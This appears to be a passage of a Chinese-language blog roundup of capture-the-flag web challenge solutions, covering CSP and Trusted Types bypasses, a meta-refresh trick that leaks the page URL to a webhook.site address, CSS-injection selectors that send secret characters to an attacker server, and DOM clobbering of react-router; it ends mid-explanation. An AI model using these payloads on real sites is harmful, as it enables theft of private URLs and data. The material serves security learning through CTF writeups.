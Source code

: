 解法有三個：

1. 神奇的 [script data double escaped state](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html#script-data-double-escaped-state)
2. `import()` 不會被 Trusted Types 擋住
3. 用 `<iframe src='/p'>` 在其他頁面執行程式碼繞過 CSP


順便附上一篇很棒的文章：[Eliminating XSS from WebUI with Trusted Types](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types)

完整 writeup：https://blog.huli.tw/2022/03/27/linectf-2022-writeup/#haribote-secure-note7-solves

### m0leCon CTF 2022 - ptMD

利用 `meta` 組合技洩漏網址：

``` html
<meta name="referrer" content="unsafe-url" />
<meta http-equiv="refresh" content="3;url=https://webhook.site/d485f13a-fd8b-4cfd-ad13-63d9b0f1f5ef" />
```

在 CSP 很嚴格的狀態下，meta 可以作為一個突破的技巧。像上面這些 meta 不用放在 head 裡面也有作用，甚至移除掉之後也有用。

完整 writeup：https://blog.huli.tw/2022/05/21/m0lecon-ctf-2022-writeup#ptmd

### corCTF 2022 - modernblog

這題是一個 React app，會用 `dangerouslySetInnerHTML` render 你的東西，也就是說你得到一個 HTML injection。

但 CSP 不讓你執行 script：`script-src 'self'; object-src 'none'; base-uri 'none';`

你要偷的是有 flag ID 的網址，這個網址會出現在 `/home` 頁面，如果我們可以在那個頁面做 CSS injection，就可以這樣偷：

``` css
a[href^="/post/0"] {
  background: url(//myserver?c=0);
}

a[href^="/post/1"] {
  background: url(//myserver?c=1);
}

// ...
```

而我們現在在的是 `/posts/:id` 頁面，所以沒辦法拿到 `/home` 頁面的內容，自然也就不能這樣做。

這題的關鍵點是一個很有趣的 DOM clobbering 應用，現在 React app 基本上都是用 [react-router](https://reactrouter.com/en/main) 這個 lib 來做路由的，這個 lib 裡面會去拿 `document.defaultView.history`，去看網址是什麼，來決定 render 哪個頁面。

而 `document.defaultView` 可以被 DOM clobbering 影響，像這樣：

``` html
<iframe name=defaultView src=/home></iframe>
```

如此一來，`document.defaultView.history` 就變成了 `/home`，因此，我們只要用 iframe srcdoc 就可以在 React app 裡面再渲染一個 React app，並且用前面提過的 CSS injection 把 flag id 拿出來：
